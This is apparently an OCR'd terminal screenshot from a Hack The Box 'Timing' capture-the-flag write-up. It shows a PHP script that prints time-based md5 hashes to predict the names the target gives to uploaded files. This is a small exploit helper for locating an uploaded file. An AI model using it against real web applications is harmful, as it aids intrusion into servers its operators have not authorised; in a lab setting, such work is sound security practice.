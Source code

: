 php```3cat@kali:~/Desktop/HTB/Timing$ cat timingboi.php
<?php
while(true){
$file_hash = uniqid();
$file_name = "cat.jpg";

$payload = md5('$file_hash' . time()) . '_' . $file_name;
echo date("D M j G:i:s T Y");
echo " = ";
echo $payload;
echo "\n";
sleep(1);
}

?>```
